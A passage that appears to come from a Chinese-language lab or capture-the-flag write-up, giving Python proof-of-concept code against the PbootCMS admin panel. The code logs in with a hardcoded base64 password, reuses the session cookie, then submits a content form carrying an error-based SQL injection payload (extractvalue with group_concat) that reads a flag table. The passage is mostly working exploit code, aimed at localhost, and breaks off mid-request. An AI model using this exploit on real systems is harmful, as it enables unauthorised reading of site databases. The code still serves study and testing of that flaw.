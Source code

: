 （2）利用 request 库进行 post 数据，并取回 cookie，为后续步骤所用

```python
def GetCookies():
    formcheck = GetFormCheck()
    password = b64decode("MTJAYWE0Li8oOUViOUFEKTApNw==")
    headers = {
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                      'Chrome/71.0.3578.98 Safari/537.36',
        'Cookie': 'PbootSystem=' + formcheck[1]
    }
    url = 'http://127.0.0.1/admin.php?p=/Index/login'
    data = {
        'username': 'check',
        'password': password,
        'formcheck': formcheck[0]
    }
    
    r = requests.post(url, data, headers=headers)
    cookies = r.cookies['PbootSystem']
    return 'PbootSystem='+cookies
```

（3）发送 POC 到指定位置，并返回数据库报错内容

```python
def SentExp():
    cookie = GetCookies()
    headers = {
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                      'Chrome/71.0.3578.98 Safari/537.36',
        'Cookie': cookie
    }
    r = requests.get("http://localhost/admin.php?p=/Content/index/mcode/2", headers=headers)
    r.encoding = 'utf-8'
    soup = BeautifulSoup(r.text, "html.parser")
    formcheck = soup.find("input", {"name": "formcheck"})['value']
    url = 'http://127.0.0.1/admin.php?p=/Content/add/mcode/2'
    data = {
            "formcheck": formcheck,
            "scode": "3",
            "title": "checktest",
            "tags": "",
            "author": "check",
            "source": "%E6%9C%AC%E7%AB%99",
            "ico": "",
            "upload": "",
            "pics": "",
            "upload": "",
            "subscode": "",
            "titlecolor": "%23333333",
            "subtitle": "",
            "filename": "",
            "outlink": "",
            "date": "2022-07-20+11%3A33%3A26",
            "enclosure": "",
            "upload": "",
            "keywords": "",
            "description": "",
            "status": "1",
            "content": '''testPOC' or (select extractvalue(1,concat(0x7e,(select group_concat(flag,0x7e) from 
            pbootcms.ay_aFlag)))) or ' '''
```